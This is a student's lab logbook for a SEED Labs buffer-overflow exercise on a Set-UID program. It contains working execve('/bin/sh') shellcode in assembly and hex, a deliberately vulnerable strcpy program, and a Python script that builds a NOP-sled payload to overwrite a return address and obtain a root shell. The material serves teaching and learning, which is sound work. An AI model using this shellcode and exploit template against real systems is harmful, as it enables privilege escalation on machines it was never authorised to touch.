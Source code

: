# Seedlab Week #5 (Buffer Overflow Attack Lab, Set-UID Version)


# Question 1

### Initial setup

Before starting the lab we disabled all countermeasures on Ubuntu:

* `sudo sysctl -w kernel.randomize_va_space=0` to disable address space randomization (otherwise, we would need to guess the exact addresses).
* `sudo ln -sf /bin/zsh /bin/sh` as in previous labs, we needed to run this to enable programs executed in a Set-UID process. 

### Task 1: Getting Familiar with Shellcode

#### Step 1 

We learned from this step that *shellcode* is a piece of assembly code that launches a shell. (It cannot be used as a compiled program from C, it must be written in assembly.)

#### Step 2: 32-bit Shellcode

Here is an example of 32-bit shellcode that invokes execve("/bin/sh"). Basically, it will construct all three arguments: `"/bin//sh"`, `argv` with first element `"/bin//sh"` and `0` as 3rd element.

```asm
; Store the command on stack
xor eax, eax
push eax
push "//sh"     ; need 4 chars to set 32-bit, and // is same as /
push "/bin"
mov ebx, esp    ; ebx --> "/bin//sh": execve()’s 1st argument

; Construct the argument array argv[]
push eax        ; argv[1] = 0
push ebx        ; argv[0] --> "/bin//sh"
mov ecx, esp    ; ecx --> argv[]: execve()’s 2nd argument

; For environment variable
xor edx, edx    ; edx = 0: execve()’s 3rd argument

; Invoke execve()
xor eax, eax    
mov al, 0x0b    ; execve()’s system call number
int 0x80
```

#### Step 3: 64-Bit Shellcode

Same code as the previous, but in 64-bit.

```asm
xor rdx, rdx        ; rdx = 0: execve()’s 3rd argument
push rdx
mov rax, ’/bin//sh’ ; the command we want to run
push rax            
mov rdi, rsp        ; rdi --> "/bin//sh": execve()’s 1st argument
push rdx            ; argv[1] = 0
push rdi            ; argv[0] --> "/bin//sh"
mov rsi, rsp        ; rsi --> argv[]: execve()’s 2nd argument
xor rax, rax
mov al, 0x3b        ; execve()’s system call number
syscall
```

#### Step 4: Invoking the Shellcode

In this task, we were provided with the code call `shellcode.c`, that was generated from assembly code. 

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
const char shellcode[] =
#if __x86_64__
    "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif;

int main(int argc, char **argv)
{
    char code[500];
    strcpy(code, shellcode);    // Copy the shellcode to the stack
    int (*func)() = (int(*)())code;
    func();                     // Invoke the shellcode from the stack
    return 1;
}
```

After compilation and running this, we can observe that it launches a shell.

<p align="center" justify="center">
  <img src="./assets/LOGBOOK5/task1.png"/>
</p>

In the experiment, if we set the program as SetUID, it will open a shell as `root`.

<p align="center" justify="center">
  <img src="./assets/LOGBOOK5/task1-with-SetUID.png"/>
</p>

### Task 2 Understanding the Vulnerable Program

We were provided with code `stack.c`, that has a buffer overflow vulnerability, when we pass 517 bytes from `badfile` to buffer in `bug()` with size `BUFSIZE`. 

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str)
{
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```

To compile the program, we used the provided `Makefile` that use flags `-fno-stack-protector` and `-z execstack` to disable stack smashing detection and making the stack executable during compilation and setting the program to `Set-UID`, so executable will be owned by `admin`.
As per the instructions in Moodle, we set L1 to 108. 

<p align="center" justify="center">
  <img src="./assets/LOGBOOK5/task2.png"/>
</p>

### Task 3 Launching Attack on 32-bit Program

<p align="center" justify="center">
  <img src="./assets/LOGBOOK5/task3.png"/>
</p>

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 10               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcac4             # Change this number 
offset = 120            # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

<p align="center" justify="center">
  <img src="./assets/LOGBOOK5/task3-l1.png"/>
</p>

# Question 2


